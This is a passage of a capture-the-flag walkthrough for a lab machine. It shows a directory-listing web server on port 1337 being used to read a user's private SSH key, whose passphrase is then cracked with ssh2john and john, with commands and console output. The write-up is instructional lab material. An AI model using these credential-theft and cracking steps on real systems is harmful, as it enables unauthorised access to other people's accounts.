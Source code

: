 ![Web Server Port 80 Beta Port 1337](web_80_beta_port_1337.webp){: width="1200" height="900" }

It seems like a simple web server with file indexing enabled, running on the root of the filesystem.

This allows us to read files from the server as the user running the web server.

### Reading the SSH Key

Checking the `/home` directory with `http://127.0.0.1:1337/home/`, we see a home folder for a single user: `saad`.

![Web Server Port 80 Beta Port 1337 Home](web_80_beta_port_1337_home.webp){: width="1200" height="900" }

Checking `/home/saad/` with `http://127.0.0.1:1337/home/saad/`, we see the presence of the `.ssh` folder.

![Web Server Port 80 Beta Port 1337 Home Saad](web_80_beta_port_1337_home_saad.webp){: width="1200" height="900" }

Inside the `/home/saad/.ssh/` directory, there is a private ssh key as `id_rsa` which we are able to read.

![Web Server Port 80 Beta Port 1337 SSH Key](web_80_beta_port_1337_ssh_key.webp){: width="1200" height="900" }

### Cracking the Passphrase

After setting the correct permissions for the key and trying to SSH with it, it prompts us for the passphrase.

```console
$ chmod 600 id_rsa  

$ ssh -i id_rsa saad@creative.thm 
Enter passphrase for key 'id_rsa': 
```

We can try to crack the passphrase with `john`.

First, `ssh2john` to convert it to a format `john` can work with.

```console
$ ssh2john id_rsa > id_rsa.hash
```

Now running `john` with `rockyou.txt`, we get the passphrase for the key.

```console
$ john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
[REDACTED]        (id_rsa)     
1g 0:00:02:13 DONE (2024-04-12 22:06) 0.007496g/s 7.196p/s 7.196c/s 7.196C/s whitney..sandy
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
